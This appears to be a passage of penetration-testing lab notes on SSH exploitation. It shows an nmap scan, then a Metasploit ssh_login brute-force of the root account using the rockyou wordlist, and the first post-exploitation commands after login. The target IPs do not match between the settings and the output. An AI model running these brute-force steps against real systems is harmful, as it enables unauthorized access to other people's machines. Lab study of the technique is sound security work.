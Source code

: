 ### SSH Exploitation Example

1. **SSH Brute Force Attack with Metasploit**:

   First, we identify an open SSH port (22/TCP) during our initial scan:

   ```bash
   nmap -p 22 192.168.74.162
   ```

![[Pasted image 20250408092549.png]]

Then, we prepare and execute a brute force attack using Metasploit's **ssh_login** module:

   ```bash
   msf6 > use auxiliary/scanner/ssh/ssh_login

   msf6 auxiliary(scanner/ssh/ssh_login) > set RHOSTS 192.168.74.136

   RHOSTS => 192.168.74.136

   msf6 auxiliary(scanner/ssh/ssh_login) > set USERNAME root

   USERNAME => root

   msf6 auxiliary(scanner/ssh/ssh_login) > set PASS_FILE /usr/share/worslists/rockyou.txt

   PASS_FILE => /usr/share/worslists/rockyou.txt

   msf6 auxiliary(scanner/ssh/ssh_login) > set THREADS 10

   THREADS => 10

   msf6 auxiliary(scanner/ssh/ssh_login) > run

   [*] 192.168.74.162:22 - Starting bruteforce

   ```



   The attack attempts to find the correct password for the root user by trying each password from the rockyou.txt wordlist. If successful, Metasploit will establish an SSH session that can be used for further exploitation.

2. **Post-Exploitation After Successful SSH Login**:

   Once a valid credential is found, we can:

   ```bash

   # Establish SSH session

   ssh root@192.168.74.162

   # Gather system information

   uname -a
